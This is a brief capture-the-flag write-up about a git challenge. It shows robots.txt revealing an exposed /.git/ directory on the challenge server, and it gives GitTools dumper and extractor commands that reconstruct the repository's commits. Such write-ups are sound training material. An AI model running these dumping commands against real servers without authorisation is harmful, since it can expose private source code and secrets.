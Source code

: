 # Writeup
This challenge is related to git
### Challenge available at `http://54.221.119.174/`

If you try `http://54.221.119.174/robots.txt` you will see ```/.git/``` is available 

Let use GitTools to pull ```/.git/``` folder

```./GitTools/Dumper/gitdumper.sh http://54.221.119.174/.git/ repo```

After that use extractor tool to extract 

```./GitTools/Extractor/extractor.sh repo doom```

We will have two folders with name 
```
0-d6f105ce9f43597523b47a81bd80d401f2b0b41a
1-e044ce1aba756d98ab5e4c063d5008b6d5a228e8
```
And in folder 1-e044ce1aba756d98ab5e4c063d5008b6d5a228e8 we have

![Image](https://github.com/quanght55/CTFWriteups/blob/master/svattt2017/tieuphong/images/tieuphong-git-extracted.png)
